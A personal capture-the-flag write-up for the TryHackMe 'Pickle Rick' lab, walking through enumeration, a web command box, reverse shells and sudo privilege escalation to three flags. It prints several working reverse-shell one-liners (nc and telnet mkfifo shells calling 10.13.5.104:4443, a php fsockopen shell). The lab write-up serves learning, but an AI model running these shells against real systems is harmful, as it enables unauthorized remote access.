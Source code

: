 # TryHackMe: Pickle Rick CTF
[Back to Table of Contents](../cysec) 

Notes/writeup for the THM CTF machine titled "Pickle Rick." \
[PickleRick on TryHackMe](https://tryhackme.com/room/picklerick)
This is a fun machine that focuses on enumeration and investigation, reverse shells, and the linux file system.

---

## Enumeration

After starting the machine, I immediately ran a few different processes to gain a basic understanding of the machine and services.

The initial results were:

```
dirb:
	/assets/

nmap:
	port 22: OpenSSH
	port 80: Apache on Ubuntu
		System:
		Apache/2.4.18 (Ubuntu) Server at 10.10.139.155 		Port 80 
```

Main/Front Webpage:
![Front page](../cs_img_dir/front_page.png)


Source Code:
```
Note to self, remember username!

Username: R1ckRul3s
```

```
- username is embedded in the html code
- The text references "BURP" twice; At this point, I'm not sure if this is a reference to the show, or a hint that Burp Suite will be useful. 
```

With that said, I decided to open Burp and saw that the images being used were contained within a directory called /assets which is accessible.

	GET /assets/rickandmorty.jpeg
	/assets/ 

/assets contains photos and js files - I thought that perhaps the images contain something interesting. I ran stegseek while the nmap and dirb processes were finishing up, however nothing unusual was found in the photos 

    robots.txt: **redacted**

I appended the string from robots.txt at the end of the URL as well as a subdirectory of /assets/ but nothing found. This will likely be useful at some point, however.


As seen above, the initial enumeration of the website did not return anything useful. I executed further enumeration with gobuster, and widened the scope to include various file extensions.

```
 gobuster -u http://ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html -t 15
 
 Gobuster:
 /login.php 
```
This revealed a login page, which is likely the key to gaining a foothold on the system. 

With that discovery, a fair amount of progress has been made:

```
Known:
	- Username
	- Login page/a web form
	- a string, potentially a password 
```

With these discoveries, I attempted login for the user R1ckRul3s with the string found in robots.txt. Authentication was succesful and I was greeted with a command execution box.

* * *

## Foothold

The first commands I executed within the web terminal were:

```
id

ls -lah
```

As usual, we have a webshell with the www-data user, uid 33:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Immediately, the files output from ls, named below, stand out:

```
Sup3rS3cretPickl3Ingred.txt
clue.txt 
```

I attempted to run the cat command, however permission was denied, so we need to either find a way around this or find a privesc exploit.
Before moving on, however, I decided to try the strings command:

```bash
strings clue.txt
```

Fortunately, this does work. The file reads:

```
"Look around the file system for the other ingredient." 
```

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

I then tried the strings command for the "Sup3rS3cretPickl3Ingred.txt" file and surely enough, it worked. We now have our first flag/ingredient.

At this point, everything within the current directory is exhausted, so it is clear that in order to find more clues/flags, we will have to move onto other areas, as the clue suggests. I attempted to cd into different common directories and ran pwd, which as expected, showed we are within the:

```
/var/www/html 
```

directory, however I was unable to change directories.

* * *

## Exploitation

In order to make further progress, a more useful reverse shell must be established. Two common ways of accomplishing this would be to either start a local python http server and wget the reverse shell, or to simply use php/bash/netcat one-liner and directly execute it via the limited command input we already have.

I decided to go with the direct execution method and tried the following:

```
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4443 >/tmp/f"
```

The same error was seen, "Command disabled."

I then decided to try using php commands, which I generated via revshells.com.

```
nc -lvnp <port>
```

```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash <&3 >&3 2>&3");'
```

![failed connection](../cs_img_dir/revshell_fail.png)

The command was clearly executed, as a connection was made with netcat, however it immediately closed and could not be accesed. While this specific command did not work, there is at least confirmation that the commands are running and that connections can be made.

I continued trying various different methods, including php cmd, php exec, nc, bash, etc., none of which worked, however I was able to succesfully establish a reverse shell using telnet, via the following command:

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.13.5.104 4443 0<$TF | /bin/bash 1>$TF
```

First, I tried some broad searches to see if anything immediately stuck out:

```
locate *.txt
locate *.sh
```

I did not see anything particularly interesting, so I navigated to /home and found a directory called "rick."

Inside of rick was a file called "second ingredients" and executing the cat command succesfully returned the second ingredient.

```
cd /home
cd /rick
ls --> second ingredients
cat * --> flag
```

Now, only one flag/ingredient is left. Given past experience with similar CTF machines, I thought it likely that this last flag would require elevated permissions to access. After attempting to cd into /root, it is clear that the current privilege level does not allow for movement within the root directory despite the machine not displaying any errors via the terminal.

I ran the following commands as a preliminary search for any potential methods of access or vulnerabilties:

```
find . -perm /4000

sudo -l
```

- While I could have easily set up a python http server and simply run linenum, I wanted to try to avoid doing that and instead improve my ability to manually search for any exploits, misconfigurations, and general methods of accessing privileged files or processes.

Interestingly, sudo -l returned "ALL." This came as a surprise, so instead of continuing to search for privesc exploits, I instead tried:

```
sudo ls /root/
```

Surely enough, this did return the contents of /root, including what appears to be the third and final flag.

Next, I tried:

```
sudo cat /root/3rd.txt 
sudo strings /root/3rd.txt
```

However, these did not return anything. I tried one more command:

```
sudo vi /root/3rd.txt
```

and, the third flag was returned!